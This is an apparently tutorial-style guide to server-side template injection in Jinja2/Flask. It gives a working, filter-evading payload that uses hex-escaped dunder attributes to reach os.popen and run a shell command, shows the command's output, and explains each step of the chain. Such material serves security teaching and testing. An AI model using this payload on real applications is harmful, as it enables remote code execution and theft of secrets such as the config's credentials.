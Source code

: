 
# 🛠️ Server-Side Template Injection (SSTI) Exploitation Guide

## 🎯 Working Payload (Jinja2)
```jinja2
{{ config|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("os")|attr("popen")("id")|attr("read")() }}
```

### ✅ Output Example:
```text
uid=1000(app) gid=1000(app) groups=1000(app)
```

---

## 🧩 Payload Breakdown

### 1. Access the Config Object
```jinja2
{{ config }}
```
- Flask's `config` object.
- Available by default in templates.
- Stores settings like DB credentials, secrets, and environment.

---

### 2. Get the Object's Class
```jinja2
|attr("\x5f\x5fclass\x5f\x5f")
```
- `\x5f` = `_` (underscore)
- Equivalent to: `config.__class__`
- Returns: `<class 'flask.config.Config'>`

---

### 3. Access Class Initializer
```jinja2
|attr("\x5f\x5finit\x5f\x5f")
```
- Equivalent to: `__init__`
- Accesses the constructor of the `Config` class.
- Critical for accessing the method’s **globals**.

---

### 4. Retrieve Global Variables
```jinja2
|attr("\x5f\x5fglobals\x5f\x5f")
```
- Equivalent to: `__globals__`
- Returns global variables of the function scope.
- Includes builtins and imported modules (like `os`).

---